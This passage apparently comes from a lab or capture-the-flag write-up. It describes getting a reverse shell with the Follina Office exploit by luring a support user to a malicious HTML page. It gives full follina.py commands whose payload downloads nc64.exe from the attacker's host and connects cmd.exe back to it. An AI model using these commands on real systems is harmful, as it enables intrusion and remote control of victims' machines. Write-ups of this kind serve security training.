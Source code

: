 -   **And I get&#x2026;..nothing**:
    -   Lets get thinking&#x2026;..


#### Trying to get a reverse shell using `Follina` malicious `html`: {#trying-to-get-a-reverse-shell-using-follina-malicious-html}

-   With the `Follina` exploit the `.doc/.rtf` is just a mechanism to have the victim reach out to the malicious `html` which actually has the payload. As we know that if we send a link to the `itsupport` it will be clicked. Which means we should be able to send them a direct link to the malicious `follina` `html`, it be clicked and the payload delivered.


##### Using John Hammond's `Follina` exploit web-server to serve the payload: {#using-john-hammond-s-follina-exploit-web-server-to-serve-the-payload}

-   **I double check that the html is working by running curl**:
    -   `curl http://10.10.14.43:9999`
    -   We can see it is here so we know it is running:
    -   {{< figure src="/ox-hugo/2024-10-10-160414_.png" >}}
        -   If you're wondering why it's so much data, the exploit requires 4096 bytes of padding to be included before the exploit will trigger.

-   **Checking the server we can see the request**:
    -   {{< figure src="/ox-hugo/2024-10-10-160601_.png" >}}

-   **I put the** `nc64.exe` **in the same folder and modify my command**:
    -   `python3 follina.py -i tun0 -p 9999  -c 'Invoke-WebRequest http://10.10.14.43/nc64.exe -OutFile C:\Windows\Temp\nc64.exe; C:\Windows\Temp\nc64.exe -e cmd.exe 10.10.14.43 443'`
    -   {{< figure src="/ox-hugo/2024-10-11-071239_.png" >}}
    -   What's strange is I can get it trigger the part where it reaches out to the webserver, but it never actually pulls down the `nc64.exe` binary however, it just reaches out to the server.



-   **Back to the drawing board&#x2026;.**
    -   I mean I could debug this but there are other publicly available exploits so will try one of them first.


### Getting a Reverse shell using `Follina.py`: {#getting-a-reverse-shell-using-follina-dot-py}

-   **I find this exploit**:
    -   <https://github.com/chvancooten/follina.py>

-   **I copy the** `nc64.exe` **binary to it's root web folder** `/www`:

-   **Start the webserver &amp; put my command I want to run when the victim reaches the malicious** `html`:
    -   `python follina.py -t rtf -m command -c 'Invoke-WebRequest http://10.10.14.43/nc64.exe -OutFile C:\\Windows\\Temp\\nc64.exe; C:\\Windows\\Temp\\nc64.exe -e cmd.exe 10.10.14.43 443'`
    -   {{< figure src="/ox-hugo/2024-10-11-074938_.png" >}}
    -   +Note+: With this particular exploit the author does to use double backslashes to escape them.
